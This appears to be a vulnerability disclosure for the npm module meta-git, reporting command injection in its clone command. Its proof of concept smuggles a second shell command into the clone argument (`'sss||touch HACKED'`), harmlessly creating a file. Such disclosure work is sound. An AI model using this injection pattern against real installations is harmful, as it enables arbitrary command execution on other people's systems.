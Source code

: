 # :bug: Description

The `meta-git` module is vulnerable against `command injection` since the `user-supplied inputs` are concatenated with a command which is executed without validation.

# :fire: POC

1. Create a new directory and insert some test files:

```bash
mkdir tests
cd tests
touch test
touch secret
touch files
```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i meta-git -g # Install affected module
meta-git clone 'sss||touch HACKED' # *HACKED* file is created
```
4. Recheck the files: now `HACKED` has been created
